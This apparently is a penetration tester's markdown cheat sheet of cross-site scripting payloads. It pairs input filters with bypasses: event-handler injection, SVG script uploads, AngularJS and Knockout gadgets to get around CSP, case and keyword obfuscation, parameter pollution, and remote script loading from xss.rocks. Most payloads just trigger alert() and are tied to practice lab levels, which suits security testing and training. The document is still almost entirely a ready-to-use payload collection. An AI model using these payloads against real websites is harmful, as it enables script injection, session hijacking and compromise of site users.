 # XSS Stuff

## Test Strings
```
<img src=x onerror=alert('XSS');>
<img/src/onerror=prompt(8)>
<img/src/onerror=alert(document.cookie;)>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```
SVG based XSS:   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert("SVG XSS");
</script>
</svg>

```

## Using Angular.js to bypass CSP
If you can find a place in a web page where e.g.  `{{7*7}}` gets displayed on client-side as '49' (if its returned as 49, then its server-side template injection!), you can try to bypass CSP with:   
`{{$on.constructor('alert(1)')()}}`   
More here: https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
 
## XSS Bypasses

|   Filter   | Bypass    |
| --- | --- |
| Nothing | &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt;, no quotes | >&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt; with quotes | ">&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection within a &lt;script&gt; block | `asdf";alert(1);<!--` |
| Injection within a &lt;textarea&gt; | &lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt; |
| DOM-XSS, no filtering | &lt;img src=x onerror=alert(1)&gt; |
| Client-side filtering of some values | [Attack in URL directly or manipulate request via Burp: https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert(1)%3C/script%3E](https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert%281%29%3C/script%3E) |
| "&lt;" and "&gt;" are filtered | test" onmouseover="alert(1) |
| "script" is filtered, but only once | &lt;img src=x onerror=alert(1)&gt; OR &lt;scriscriptpt&gt;alert(1)&lt;/scriscriptpt&gt;  |
| most non-HTML5 onXYZ handlers are blocked | Any valid HTML5 onevent handler: &lt;input type=text oncontextmenu=alert(1)&gt;|
| all "onxyz" event handlers are filtered, "script" is filtered, but case sensitive | &lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt; |
| "alert" is filtered | [&lt;script src=https://xss.rocks/xss.js&gt;](https://xss.rocks/xss.js) |
| "alert", "http://" and "https://" are filtered | &lt;script src=//xss.rocks/xss.js&gt; |
| Injection in a &lt;script&gt; block, but double quotes are escaped | Escape the escape character: `asdf\\";alert(1);<!--` |
| Injection in a &lt;script&gt; block, but "&lt;", "&gt;" and "alert" are filtered | ";\\u{61}lert(1);var i=" |
| Parentheses are filtered | &lt;script&gt;onerror=alert;throw 1&lt;/script&gt; |
| Injection inside "src" attribute of &lt;script&gt; tag, but all protocols "http://", "https://" and "//" are filtered. | data:text/javascript,alert(1) |
| all tags (e.g. &lt;.*&gt;) are filtered | Parameter pollution: [https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert(1)%3C/script%20&inject=%3E](https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert%281%29%3C/script%20&inject=%3E) |
| "script" and "onXYZ" event handlers are filtered, but knockout JS is available. | Knockout JS script gadget:  &lt;h2&gt;Hello, &lt;span data-bind="text: alert(1)"&gt;&lt;/span&gt;!&lt;/h2&gt; |
| Injection via file upload, nothing filtered | Upload HTML document (e.g. test.html): &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection via file upload, but .html extension and other important ones are filtered. | Upload HTML document, but with .htm extension:  &lt;script&gt;alert(1)&lt;/script&gt; |
| MIMETypes are filtered, only images are allowed. | Use an SVG (below is a fancy one): <br>`<?xml version="1.0" standalone="no"?>`<br>`<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">`<br>`<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">`<br>`<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />`<br>`<script type="text/javascript">`<br>`alert("SVG XSS");`<br>`</script>`<br>`</svg>` |
| Injection inside eval, but ">", "<", "=", "alert", "script", "src" and protocols are all filtered. | String.fromCharCode(97,108,101,114,116,40,49,41) |
| csp blocks most things, but allows angularJS to be loaded | <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script\> &lt;input type=text ng-app id=p ng-focus=$event.view.alert(1)&gt; |
